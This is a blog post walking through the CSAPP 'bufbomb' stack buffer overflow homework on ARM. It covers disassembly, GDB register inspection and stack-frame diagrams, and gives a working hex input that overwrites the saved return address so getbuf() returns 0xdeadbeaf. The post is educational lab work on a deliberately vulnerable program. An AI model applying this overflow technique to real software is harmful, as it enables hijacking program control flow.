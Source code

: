 ```yaml
---
title: Bufferoverflow Experiment (CSAPP)
date: 2013-11-02 22:00
layout: post
category: projects
comments: true
tags: disassembly gdb bufferoverflow arm RPi c
description: "
Recently I have been reading a book from CMU named 'Computer Systems: A Programmer's Perspectie'. It's a very interesting book and makes quite good illustrations. It's not difficult to understand but I noticed an interesting experiment in Chapter 3 homework about stack buffer overflow injection. Although the book mainly talked about IA32, I completed it on ARM with my Raspberry Pi.
" 
---
```


Recently I have been reading a book from CMU named *Computer Systems: A Programmer's Perspectie*. It's a very interesting book and makes quite good illustrations. It's not difficult to understand but I noticed an interesting experiment in Chapter 3 homework about stack buffer overflow injection. Although the book mainly talked about IA32, I completed it on ARM with my Raspberry Pi.

*The question was a source file given in [bufbomb.c](http://csapp.cs.cmu.edu/public/1e/ics/code/asm/bufbomb.c). In the program procedure, test() calls getbuf() which calls getxs() and returns 1 constantly. Getxs() gets inputs from command line in hex format until meets an enter event. The requirement is to make getbuf() returns 0xdeadbeaf ( or other random hex strings actually ) instead of the constant 1.*

#####Use objdump to disassemble the binary file

In order to use GDB to learn about its register values and memory addresses. Use `-g` option to build the source file.

	gcc -g -o bufbomb bufbomb.c

Then 

	objdump -d bufbomb > disassemble.s

	00008590 <getbuf>:
	    8590:   e92d4800    push    {fp, lr}
	    8594:   e28db004    add fp, sp, #4
	    8598:   e24dd010    sub sp, sp, #16
		...	    
	    85a4:   ebffffa4    bl  843c <getxs>
	    85a8:   e3a03001    mov r3, #1
	    85ac:   e1a00003    mov r0, r3
	    85b0:   e24bd004    sub sp, fp, #4
	    85b4:   e8bd8800    pop {fp, pc}
	
	000085b8 <test>:
	    85b8:   e92d4800    push    {fp, lr} 
	    85bc:   e28db004    add fp, sp, #4
	    85c0:   e24dd008    sub sp, sp, #8
        ...
        85d0:   ebffffee    bl  8590 <getbuf>
	    85d4:   e50b0008    str r0, [fp, #-8]
	    85d8:   e59f3014    ldr r3, [pc, #20]   ; 85f4 <test+0x3c>
	    85dc:   e1a00003    mov r0, r3
	    85e0:   e51b1008    ldr r1, [fp, #-8]
	    85e4:   ebffff57    bl  8348 <_init+0x20>
        ...
        
lr in getbuf() would be storing `0x85d4` (this will also be verified in the GDB debugger) as its the next address to `bl getbuf`, when the callee returns, the return value would be put to `[fp, #-8]` and retrieved to r1 register. (See Step 3)

A stack-frame graph could be got from the disassembly codes. It should be noticed that in APCS (Arm Procedure Call Standard), r0 register is chosen to store the return value of functions. So It's not necessary to draw all of the several funtions as obviously the operation required would be in the connections in test() and getbuf(). 

[![stack-frame.jpg]({{BASE_PATH}}/images/csapp/stack-frame.jpg)]({{BASE_PATH}}/images/csapp/stack-frame.jpg)

<br />

#####Use GDB to get values of fp registers (lr registers can be got from either disassembly codes or GDB debugger)

Set breakpoints before each function call so that we can get the lr and fp values of the caller's function frame and pushed onto the callee's stack.

Starting program: /home/pi/workspace/test/bufbomb/bufbomb 

	Breakpoint 18, main () at bufbomb.c:63
	63	    *space = 0; 
	(gdb) print $fp
	$39 = (void *) 0xbefff5f4  
	(gdb) c
	Continuing.
	
	Breakpoint 4, test () at bufbomb.c:48
	48	    printf("Type Hex string:");
	(gdb) p $fp
	$40 = (void *) 0xbeffeff4  
	(gdb) p /x *(0xbeffeff4 - 0x4) 
	$42 = 0xbefff5f4
	(gdb) c
	Continuing.
	
	Breakpoint 3, getbuf () at bufbomb.c:41
	41	    getxs(buf);
	(gdb) p $fp
	$44 = (void *) 0xbeffefe4 
	(gdb) p /x *(0xbeffefe4) 
	$46 = 0x85d4 ; This is exactly the same from the dissembly code: 85d4:   e50b0008    str r0, [fp, #-8]

If a GDB debugger tool is not preferred, a printf() function will also be useful. But it will require an inline asm code in the c source file to get the register values. For example, put this code:

	int fp_value;
	__asm__ __volatile__("mov [result], fp\n": [result]"=r"(fp_value));
	printf("fp register value: 0x%.8x\n", fp_value);

in front of a function call process to get the caller's funtion pointer value. 

Now we can add the addresses and register values to the stack-frame graph above:

[![stack-frame2.jpg]({{BASE_PATH}}/images/csapp/stack-frame2.jpg)]({{BASE_PATH}}/images/csapp/stack-frame2.jpg)


<br />

#####Buffer overflow

The basic trick here is to modify the lr value on the stack of getbuf() to point to an address that by-pass the operation that sets r0, the return value of getbuf(), which is `1`, to `[fp - 0x4]` position of test() that is used to set r1 as the second parameter to `printf(format, ...)`. In order to change the lr value, we need to override it in a provided way. That is the **buffer overflow** we talking about here. `buf[12]` was defined and passed to getxs() with only the starter pointer without its length, which is unknow to the callee function. While there is no restriction of `*sp++`, it won't be long before the `*sp` reaches the fp pointer and modify its value.

[![stack-frame3.jpg]({{BASE_PATH}}/images/csapp/stack-frame3.jpg)]({{BASE_PATH}}/images/csapp/stack-frame3.jpg)

<br />

#####Result

Obviously, the input value could be:

	10 10 10 10 10 10 10 10 10 10 10 10 f4 ef ff be d8 85 00 00 00 00 00 00 af be ad de f4 f5 ff be 50 86 00

to get the result:

	(gdb) r
	Starting program: /home/pi/workspace/test/bufbomb/bufbomb 
	Type Hex string:10 10 10 10 10 10 10 10 10 10 10 10 f4 ef ff be d8 85 00 00 00 00 00 00 af be ad de f4 f5 ff be 50 86 00
	getbuf returned 0xdeadbeaf
	[Inferior 1 (process 2834) exited normally]

<br />

**Note: The process was done on the ARM platform, different platforms and compilers would require different input values as they might have different stack-frame structure and different addresses.**

